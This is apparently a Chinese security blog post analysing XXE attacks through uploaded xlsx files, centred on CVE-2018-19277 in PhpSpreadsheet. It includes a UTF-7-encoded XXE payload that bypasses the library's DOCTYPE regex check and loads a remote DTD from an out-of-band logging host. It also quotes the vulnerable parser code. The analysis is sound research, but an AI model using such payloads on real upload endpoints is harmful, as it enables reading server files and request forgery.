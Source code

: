 # xxe实践探索

## 背景
之前看过一篇讲利用xlsx文件构造xxe payload的博客
https://www.4armed.com/blog/exploiting-xxe-with-excel/
先知也有翻译。当时看完博客，按照复现步骤构造了payload后找了个数字产品的excel上传点测了一下没成功就放弃折腾了。最近又看到几个可以上传xlsx的网站，想起来之前的经历，决定重新看看这个问题。

## OOXML
OOXML是Office Open XML的简称，一个xlsx文件就是一堆xml文件的压缩包，比如我新建1个normal.xlsx。改了个sheet名，1行1列输了一串a。
![-w499](media/15552288460409/15553096661880.jpg)  

解压xlsx得到一堆xml文件。
![-w369](media/15552288460409/15553098644527.jpg)  

解压后的结构
![-w274](media/15552288460409/15553101464498.jpg)  

aaaa...
![-w1432](media/15552288460409/15553102717304.jpg)  

test-sheet1
![-w1436](media/15552288460409/15553104462469.jpg)  

直接在xml中添加DOCTYPE再重新压缩在office2007之后是打不开的，因为office2007开始禁止了DTD。但是作为服务端解析来说，office能否打开无所谓，最终能否成功执行xxe只和各编程语言中负责解析xlsx的库相关。

## 不同编程语言的解析行为
* php
php自带xml解析库libxml，自从2.9.0以后提供了一个函数禁止解析外部实体，但是需要显示声明
```
libxml_disable_entity_loader(true)
```
在其被禁止的情况下如何突破呢？利用反序列化漏洞构造一个初始化打开外部实体解析开关的对象可以绕过，但是这偏题了。xlsx文件是一系列xml的压缩包，解析xlsx，本质上还是解析xml，php解析excel一般用  
https://github.com/PHPOffice/PHPExcel  
后来更名为  
https://github.com/PHPOffice/PhpSpreadsheet  
2018年11月13日爆出了编号为CVE-2018-19277的xxe漏洞，这个漏洞利用了编码utf-7绕过了正则的安全检查，漏洞分析可以参考安全客这篇文章，虽然它有很多问题  
https://www.anquanke.com/post/id/170068  
编码后的payload大概长这样，这是其中一处错误，实际上utf-7编码后置改变了开头的<!，DOCTYPE并不会变
![-w851](media/15552288460409/15553141607574.jpg)
但是这个漏洞到底怎么产生的？按照我之前的理解，php解析xml时一般都会禁止外部实体解析。通过分析文章可以看到漏洞最终是因为simplexml的simplexml_load_file造成的。通过《php_xxe》的测试结果，只有在simplexml_load_file的第3个参数是《php_xxe》的测试结果显示的11个危险参数之一时造成http payload的执行，下载漏洞版本1.5.0，看simplexml_load_file执行的位置

```
$xml = simplexml_load_string($this->securityScan($gFileData), 'SimpleXMLElement', Settings::getLibXmlLoaderOptions());
```

第3个参数是Settings::getLibXmlLoaderOptions()
```
/**
 * Get default options for libxml loader.
 * Defaults to LIBXML_DTDLOAD | LIBXML_DTDATTR when not set explicitly.
 *
 * @return int Default options for libxml loader
 */
public static function getLibXmlLoaderOptions()
{
    if (self::$libXmlLoaderOptions === null && defined('LIBXML_DTDLOAD')) {
        self::setLibXmlLoaderOptions(LIBXML_DTDLOAD | LIBXML_DTDATTR);
    } elseif (self::$libXmlLoaderOptions === null) {
        self::$libXmlLoaderOptions = true;
    }

    return self::$libXmlLoaderOptions;
}
```

第1个if条件满足（与逻辑的第2项为真是因为LIBXML_DTDLOAD是libxml的内置常量）。
这个漏洞让我学到的第2点是xml头的属性，作者通过encoding属性绕过了漏洞产品本身的正则检测。xml头可以定义成
```
<?xml version="1.0"?>
```
也可以定义成
```
<?xml version="1.0" encoding="UTF-8"?>
```
还可以定义成
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
```

构造utf-7编码的payload
```
$str1 = mb_convert_encoding($str, "UTF-7");
```
输出结果
```
+ADwAIQ-DOCTYPE xmlrootname +AFsAPAAh-ENTITY +ACU aaa SYSTEM +ACI-http://xxxxx.ceye.io/lalala.dtd+ACIAPgAl-aaa+ADsAJQ-ccc+ADsAJQ-ddd+ADsAXQA+-
```
这已经够绕过代码本身的检测了，因为代码本身检测的是`<!DOCTYPE`
```
    public function securityScan($xml)
    {
        $pattern = '/\\0?' . implode('\\0?', str_split('<!DOCTYPE')) . '\\0?/';
        if (preg_match($pattern, $xml)) {
            throw new Exception('Detected use of ENTITY in XML, spreadsheet file load() aborted to prevent XXE/XEE attacks');
        }

        return $xml;
    }
```
之后通过漏洞作者和开发者的对话了解到另一个之前忽略的问题：libxml_disable_entity_loader(true)是在大概php5.2以后才提供的，php7下可以直接禁止，但是php5中考虑到兼容性的问题，很难直接禁掉，这个时候就只能依靠正则了。开发者的修复思路是检查编码类型，如果不是utf-8通通转化为utf-8再检查正则。其实如果不转化直接依靠正则呢？只检查DOCTYPE应该是没有问题的，因为utf-16也绕不过，但是还得看解析的时候支持哪些编码。
  


* java
解析库：apache poi, CVE-2016-5000  
   
* python
解析库：openpyxl, CVE-2017-5992	

* golang
golang本身自带的xml库不解析DTD，参考
https://stackoverflow.com/questions/28107960/how-can-i-force-gos-standard-xml-parser-to-read-dtd-entities
解析库：tealeg/xlsx  
360EntSecGroup-Skylar/excelize



## 拓展
https://github.com/BuffaloWill/oxml_xxe
可以作为xml payload载荷的除了OOXML，还有以上提到的几种
